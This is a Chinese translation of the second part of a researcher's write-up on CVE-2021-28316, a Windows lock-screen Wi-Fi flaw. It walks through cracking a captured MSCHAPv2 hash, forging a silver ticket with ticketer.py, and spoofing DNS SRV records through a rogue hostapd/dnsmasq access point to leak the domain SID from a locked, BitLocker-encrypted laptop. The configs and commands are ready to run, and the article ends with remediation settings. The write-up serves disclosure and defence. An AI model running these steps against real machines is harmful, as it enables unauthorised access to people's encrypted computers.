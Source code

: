 > 原文链接: https://www.anquanke.com//post/id/238698 


# 深入分析CVE-2021-28316漏洞（下）


                                阅读量   
                                **175094**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Matthew Johnson，文章来源：shenaniganslabs.io
                                <br>原文地址：[https://shenaniganslabs.io/2021/04/13/Airstrike.html﻿](https://shenaniganslabs.io/2021/04/13/Airstrike.html%EF%BB%BF)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)](https://p3.ssl.qhimg.com/t01112bfaa32b614b9d.jpg)



在上一篇文章中，我们为读者详细介绍了CVE-2021-28316漏洞的背景知识，并展示了实现本地提权的过程，在本文中，我们将继续为读者介绍如何恢复HTML哈希值等重要知识点。

（接上文）

## 恢复NTLM哈希值

然后，攻击者可以将捕获到的这个MSCHAPv2质询响应的哈希值，通过工具chapcrack转换为Cloud Crack格式，并提交给crack.sh服务进行破解。

[![](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)](https://p5.ssl.qhimg.com/t012a8c9239b6320576.png)

为了达到演示的目的，在我们的实验中，将使用Impacket的工具secretsdump.py来验证chapcrack输出的K3的前4个字节与计算机账户的NTLM哈希值的后4个字节是否匹配。

[![](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)](https://p3.ssl.qhimg.com/t0171e784ca38ab9fea.png)

作为一个经过身份验证的域用户，我们可以通过多种方式获取域SID。其中，最简单的方法是运行whoami /all命令。

[![](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)](https://p5.ssl.qhimg.com/t01d6f3afe6912d4586.png)

现在，我们已经掌握了为设备上的CIFS服务伪造一个服务票据所需的所有信息。由于我们可以指定服务票据中包含的用户和组SID，这样的话，我们就可以用它来作为具有管理权限的用户来访问CIFS服务了。

为此，我们可以使用Impacket中的工具ticketer.py和下面的命令来完成这个任务。

```
ticketer.py -nthash c86afa9bd3c7afa9ff31da6af182ddbe -domain-sid S-1-5-21-553012155-822088108-1873906631 -domain INITECH.local -spn cifs/DESKTOP-J5KI5KA.initech.local administrator
export KRB5CCNAME=administrator.ccache
```

[![](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)](https://p2.ssl.qhimg.com/t011303725359ecc25f.png)

这样的话，使用smbclient，我们就可以访问笔记本电脑的整个文件系统了。

[![](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)](https://p4.ssl.qhimg.com/t0177c34189a363821b.png)

Impacket中的smbexec.py之类的工具为我们提供了一种简便的方法，可以在SYSTEM用户的安全上下文中在主机上执行命令。

[![](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)](https://p3.ssl.qhimg.com/t0113d22de36734f8dd.png)

在发现可以从锁屏状态下获取质询响应的哈希值之后，攻击者又找到了一些更有趣的攻击情形，例如，攻击启用了全盘加密（FDE）的、处于锁屏状态的笔记本电脑。

但是，为了利用这一漏洞，目前还缺少重要的一环，即域SID。我们需要一种无需先登录到计算机即可恢复它的方法。



## 缺失的一环

在发现这种攻击方法几个月之后，一位客户联系我们，要求对其一台SOE笔记本电脑进行相应的安全测试。他们特别关心的是，如果攻击者能够将魔爪伸向受到BitLocker全盘加密保护的、处于锁屏状态的笔记本电脑上，将会造成多大的损失。

针对这种特定攻击情形，我本人和我的同事Danyal Drew（[@DanyalDrew](https://github.com/DanyalDrew)）重新考虑了这个想法，并着手考察是否可以找到一种无需登录计算机即可泄漏域SID的方法。

当加入域的计算机首次访问网络时，将执行许多CLDAP搜索，以识别域控制器上可用的服务。这些消息称为LDAP ping。

这听起来很有希望，因为在此搜索过程中使用的CLDAP查询包含以下信息：
- DnsDomain
- Host
- DnsHostName
- User
- DomainSid
- DomainGuid
我们的初步测试方法是，运行Wireshark捕获并观察无线客户端发出的LDAP DNS请求。

[![](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)](https://p1.ssl.qhimg.com/t01a1a56ede6e548da3.png)

然后，将这些srv-host DNS条目添加到dnsmasq配置中并重新连接客户端后，我们找到了目标内容。

[![](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)](https://p5.ssl.qhimg.com/t0185e01eaaa8086f5f.png)

这样，我们现在就获得了入侵处于锁屏状态的笔记本电脑所需的一切。



## 在启用了全盘加密的情况下访问处于锁屏状态的计算机

实际上，这里的恶意AP配置也可用于通过目标设备的锁屏页面捕获质询响应的哈希值并提交给crack.sh服务。

要泄漏域SID，我们需要将笔记本电脑加入攻击者控制的网络；在该网络中，我们将使用攻击者的IP地址响应笔记本电脑发出的所有DNS SRV请求。

这样的话，我们就能够捕获包含域SID和域名的“ LDAP ping”数据包。同样的，我们还需要运行恶意访问点，并强制客户端从锁屏页面进行连接。但是，这次，我们将使用下面的hostapd.conf和hostapd-psk文件创建WPA2-PSK网络，而不是配置访问点以支持PEAP身份验证。

```
interface=$WIRELESS_INTERFACE_HERE
ssid=Airstrike_WPA
channel=1
auth_algs=1
wpa=3
wpa_psk_file=./hostapd-psk
wpa_key_mgmt=WPA-PSK 
wpa_pairwise=CCMP TKIP
rsn_pairwise=CCMP
```

然后，建立一个文件hostapd-psk，用于配置网络的密码。

```
00:00:00:00:00:00 airstrike
```

由于我们希望笔记本电脑能够连接到自己的网络，因此，我们还需要使用dnsmasq来运行DHCP和DNS服务器，所需的dnsmasq.conf文件如下所示。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp
```

接下来，让我们可以为无线适配器分配一个IP地址，并启动DNS/DHCP服务器。

```
ifconfig $WIRELESS_INTERFACE 10.0.0.1/24 up
dnsmasq -d -C dnsmasq.conf
```

为了捕获来自笔记本电脑的流量，我们还需要在无线接口上启用tcpdump。

```
tcpdump -i $WIRELESS_INTERFACE -s 65535 -w $OUT_FILE.pcap
```

一旦运行上述命令，我们就可以从锁屏页面连接到无线网络，并且会在笔记本电脑上看到从我们的DHCP服务器接收的IP数据包。

需要注意的是，笔记本电脑首次连接时，我们会看到许多无应答的SRV DNS请求。我们需要记录下所有这些内容，并修改dnsmasq.conf文件，以使用无线接入点的IP地址可以响应它们。

```
interface=$WIRELESS_INTERFACE_HERE
dhcp-range=10.0.0.10,10.0.0.100,8h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
log-dhcp

srv-host=_ldap._tcp.Default-First-Site-Name._sites.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.dc._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.a3fcc77a-710d-4956-af07-bfa9187b91e9.domains._msdcs.INITECH.local,10.0.0.1,389
srv-host=_ldap._tcp.INITECH.local,10.0.0.1,389
```

接下来，我们可以断开笔记本电脑与接入点的连接，然后重新连接，并检查新的pcap文件的内容。如果我们过滤的是CLDAP协议的数据包，我们就会发现笔记本电脑试图对攻击者的IP进行LDAP ping。并且，LDAP ping消息的内容将包括活动目录域名、笔记本电脑的主机名和域SID。

现在，我们可以再次使用工具ticketer.py为CIFS服务创建一个白银票据，并使用smbclient进行身份验证，从而获得对设备文件系统的无限制访问权限。

注意：在某些情况下，默认的RID 500帐户在加入域的主机上并不具有本地管理员权限。在这种情况下，可以通过暴力搜索方法：不断递增白银票据中的RID，直到发现有效帐户为止。



## 补救措施

这个安全问题已报告给Microsoft安全响应中心，并且已在2021年4月的最新安全更新中得到修复。

作为进一步的加强措施，我们可以通过以下组策略设置，禁用从锁屏页面访问网络选择UI的功能：

```
Computer Configuration | Administrative Templates | System | Logon --&gt; Do not display network selection UI

```

此外，我们也可以通过配置注册表，启用DontDisplayNetworkSelectionUI标志来实现上述目的：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System]
"DontDisplayNetworkSelectionUI"=dword:00000001
```
